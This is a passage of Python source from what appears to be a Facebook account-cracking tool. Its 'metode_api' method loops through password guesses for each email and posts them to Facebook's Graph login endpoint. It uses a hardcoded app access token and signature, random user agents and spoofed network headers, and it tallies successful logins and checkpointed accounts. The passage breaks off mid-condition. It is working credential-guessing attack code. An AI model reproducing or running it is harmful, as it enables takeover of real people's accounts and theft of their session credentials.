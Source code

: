 		sys.exit()

							

	###----------[ METODE API ]---------- ###

	def metode_api(self,email,pwx):

		prog.update(des,description=f" {H2}•{P2} crack {H2}aman{P2} {str(self.loop)}/{len(tampung)} OK : {H2}{len(self.ok)}{P2} CP : {K2}{len(self.cp)}{P2}")

		prog.advance(des)

		try:

			for pw in pwx:

				pw = pw.lower()

				ua = random.choice(ugent)

				params = {

					"access_token": "200424423651082|2a9918c6bcd75b94cefcbb5635c6ad16",

					"sdk_version": {random.randint(1,26)}, 

					"email": email,

					"locale": "en_US",

					"password": pw,

					"sdk": "android",

					"generate_session_cookies": "1",

					"sig": "4f648f21fb58fcd2aa1c65f35f441ef5"

				}

				headers = {

					"Host": "graph.facebook.com",

					"x-fb-connection-bandwidth": str(random.randint(20000000, 30000000)),

					"x-fb-sim-hni": str(random.randint(20000, 40000)),

					"x-fb-net-hni": str(random.randint(20000, 40000)),

					"x-fb-connection-quality": "EXCELLENT",

					"user-agent": ua,

					"content-type": "application/x-www-form-urlencoded",

					"x-fb-http-engine": "Liger"

				}

				post = ses.post("https://graph.facebook.com/auth/login",params=params, headers=headers, allow_redirects=False)

				if "session_key" in post.text and "EAA" in post.text:
